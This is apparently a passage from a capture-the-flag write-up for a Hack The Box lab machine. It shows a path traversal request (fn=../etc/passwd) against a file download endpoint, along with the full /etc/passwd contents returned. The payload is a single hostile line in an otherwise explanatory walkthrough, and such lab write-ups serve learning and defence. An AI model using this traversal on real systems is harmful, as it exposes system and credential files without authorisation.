 It gave me an error.

```http
HTTP/1.1 500 INTERNAL SERVER ERROR
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Apr 2023 13:30:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13534
Connection: close

<!doctype html>
<html lang=en>
  <head>
    <title>FileNotFoundError: [Errno 2] No such file or directory: '/tmp//etc/passwd'
 // Werkzeug Debugger</title>

 ...
```

But the error showed that the path I gave was appended to '/tmp/'. I tried again by adding '..' at the beginning of my path.

```http
GET /download?fn=../etc/passwd HTTP/1.1
Host: superpass.htb
...
```

I got the file back.

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 15 Mar 2023 23:11:05 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 1744
Connection: keep-alive
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
```